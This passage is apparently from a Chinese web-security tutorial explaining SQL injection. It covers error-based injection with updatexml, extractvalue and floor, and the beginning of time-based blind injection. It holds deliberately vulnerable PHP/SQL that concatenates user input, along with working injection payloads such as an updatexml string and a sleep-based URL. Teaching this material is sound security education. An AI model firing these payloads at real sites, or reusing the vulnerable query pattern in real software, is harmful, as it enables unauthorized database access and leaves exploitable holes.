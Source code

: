 **2.2.2、报错注入**<br />在一些场景下可能存在页面什么都不回显的情况，这时就可以使用报错来进行注入。报错注入的原理就是通过构造特殊的报错语句，使MySQL数据库报错，使我们查询的内容显示在报错信息中，同时把报错信息显示在页面上。

**常用的报错函数有：**

1. updateXML()：XPATH语法错误产生报错。`updateXML`的第⼆个参数要求是xpath格式字符串，如果是非法格式就会报错，并将非法格式内容返回。
2. extractvalue()：XPATH语法错误产生报错。`extractvalu`的第⼆个参数要求是xpath格式字符串，如果是非法格式就会报错，并将非法格式内容返回。
3. floor()：`group by` 对`rand()`函数进行操作时产生错误。

设有一个登陆页面后台SQL语句为：
```
$row1 = $row['username']
$update="UPDATE users SET password = '$passwd' WHERE username='$row1'"
```

当我们输入：
```
uname=admin&passwd=' or updatexml(1,concat(0x7e,(select database()),0x7e),1)#&submit=Submit
```

实际执行的语句为：
```
UPDATE users SET password = '' or updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

**分析：**`password = ''`为假，然后执行后面的语句`updatexml(1,concat(0x7e,(select database()),0x7e),1)`，所以页面会回显出当前数据库名称。
![image.png](../../_img/02-Web安全/01-基础知识/1664332325013-c2b2ddd6-ed6b-4ead-b06e-3e757022f7bc.png)

**2.2.3、时间盲注**<br />设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"`

**判断当前数据库名称的字符数**<br />当我们输入
```
http://xmtxsec.top/test.php/?id=1' and if(length(database())=8,1,sleep(5))--+
```
